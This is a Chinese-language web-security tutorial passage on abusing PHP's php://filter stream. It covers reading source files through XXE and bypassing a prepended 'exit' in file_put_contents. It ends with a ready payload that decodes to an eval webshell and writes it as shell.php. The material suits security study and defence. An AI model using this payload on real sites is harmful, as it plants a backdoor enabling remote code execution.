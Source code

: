 



## 0x01 XXE中的使用

在XXE中，我们也可以将PHP等容易引发冲突的文件流用php://filter协议流处理一遍，这样就能有效规避特殊字符造成混乱。

如下，我们使用的是`php://filter/read=convert.base64-encode/resource=./xxe.php`

![QQ截图20160724235335.png](https://www.leavesongs.com/content/uploadfile/201607/thum-693b1469385893.png)



## 0x02 file_put_contents(\$filename,”<?php exit();”.$content);



### 1. base64-decode绕过exit



```php
<?php
$content = '<?php exit; ?>';
$content .= $_POST['txt'];
file_put_contents($_POST['filename'], $content);
```

`$content`在开头增加了exit过程，导致即使我们成功写入一句话，也执行不了（这个过程在实战中十分常见，通常出现在缓存、配置文件等等地方，不允许用户直接访问的文件，都会被加上if(!defined(xxx))exit;之类的限制）。那么这种情况下，如何绕过这个“死亡exit”？



我们即可使用 php://filter协议来施展魔法：**使用php://filter流的base64-decode方法，将`$content`解码，利用php base64_decode函数特性去除“死亡exit”。**



base64编码中只包含64个可打印字符，而PHP在解码base64时，遇到不在其中的字符时，将会跳过这些字符，仅将合法字符组成一个新的字符串进行解码。

所以，一个正常的base64_decode实际上可以理解为如下两个步骤：

```php
<?php
$_GET['txt'] = preg_replace('|[^a-z0-9A-Z+/]|s', '', $_GET['txt']);
base64_decode($_GET['txt']);
```



所以，当`$content`被加上了`<?php exit; ?>`以后，我们可以使用 php://filter/write=convert.base64-decode 来首先对其解码。在解码的过程中，**字符<、?、;、>、空格等一共有7个字符不符合base64编码的字符范围将被忽略，所以最终被解码的字符仅有“phpexit”和我们传入的其他字符。**

**“phpexit”一共7个字符，因为base64算法解码时是4个byte一组，所以给他增加1个“a”一共8个字符。这样，"phpexita"被正常解码，**而后面我们传入的webshell的base64内容也被正常解码。结果就是`<?php exit; ?>`没有了。



payload：

```bash
txt=aPD9waHAgZXZhbCgkX1BPU1RbJ3Bhc3MnXSk7Pz4=&filename=php://filter/write=convert.base64-decode/resource=shell.php
```
